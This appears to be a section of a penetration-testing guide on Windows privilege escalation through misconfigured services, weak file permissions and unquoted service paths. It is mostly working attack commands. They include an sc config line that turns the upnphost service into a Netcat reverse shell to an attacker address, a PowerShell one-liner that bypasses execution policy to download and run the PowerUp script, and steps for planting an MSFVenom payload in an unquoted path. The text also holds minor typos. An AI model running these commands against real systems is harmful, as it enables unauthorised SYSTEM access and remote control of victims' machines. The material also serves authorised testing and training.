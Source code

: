 # Windows Services
Next, we can try Microsoft Windows Services with the following command,
```
C:> sc qc Sploiler
```
If we upload a copy of the `accesschk.exe` binary from [Microsoft SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can check alot of permissions for services. For instance,
```
C:> accesschk.exe /accepteula -ucqv Spooler
```
will list the Spooler service and it's permissions. To list all services, simply use an asterisk,
```
C:> accesschk.exe /accepteula -ucqv *
```
We can use it to check for write access to a service with the following DOS command,
```
C:> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
Now, let's try it in practice. First a few things need to be in order. We must,
1. Have a space to read and write 
2. Upload the Windows binary of Netcat to the target `/usr/share/binaries/windows` in Kali.
```
C:\> sc qc upnphost
C:\> sc config upnphost binpath= "C:\temp\nc.exe -nv (ATTACKER IP ADDRESS) (ATTACKER PORT) -e C:\WINDOWS\System32\cmd.exe"
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
C:\> sc qc upnphost
C:\> net start upnphost # start the service
```
The access rights that we are looking for in the service to fully exploit it are,
* SERVICE_SHNAGE_CONFIG
* WRITE_DAC
* WRITE_OWNER
* GENERIC_WRITE
* GENERIC_ALL
The important thing to remember is that we find out what user groups our compromised session belongs to. As mentioned previously "Power Users" is also considered to be a low privileged user group. "Power Users" have their own set of vulnerabilities, Mark Russinovich has written a very interesting article on the subject.

Do any services have unquoted paths with spaces?
```
C:> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """
C:> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
## Windows Processes
We can gather information on the currently-running processes with the following commands,
```
C:> tasklist /v
C:> tasklist /v /fi "username eq system"
C:> net start
C:> sc query
PS> Get-Service
PS> Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
PS> REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```
Search for weak services using [PowerUp Power Shell](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps) script,
```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```
## Weak File Permissions
We can also use `accesschk.exe` to determine which files in the target system have weak permissions. You can get Accesschk.exe from [this repository](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/windows-binaries/accesschk.exe)
```
C:> accesschk.exe -uwdqs Users c:\
C:> accesschk.exe -uwdqs "Authenticated Users" c:\
C:> accesschk.exe -uwqs Users c:\*.*
C:> accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
## Unquoted Service Binary Paths
In Windows environments when a service is started the system is attempting to find the location of the executable in order to successfully launch the service. If the executable is enclosed in quote tags “” then the system will know where to find it. However if the path of where the application binary is located doesn’t contain any quotes then Windows will try to find it and execute it inside every folder of this path until they reach the executable.

This can be abused in order to elevate privileges if the service is running under SYSTEM privileges. The following command can be used to quickly identify if any Windows services have unquoted paths,
```
C:> wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
```
Next, simply check the EUID of the running process. If it is SYSTEM, then we should attempt to exploit the unquoted path vulnerability. First, we need to use `icacls` to ensure that we have write access to any of the binary path's directories. If we do, we simply need to create a payload using MSFVenom, name it the same name as the binary in the unquoted path, and place it into a directory that is located in the path of the unquote binary path. 

We can then use `sc` to stop and start the service like so,
```
C:> sc stop ServiceName
C:> sc start ServiceName
```
But, ensure that the listener of our reverse connection, if used as payload during the binary creation process with MSFVenom, is running on the right port of our attacker machine.
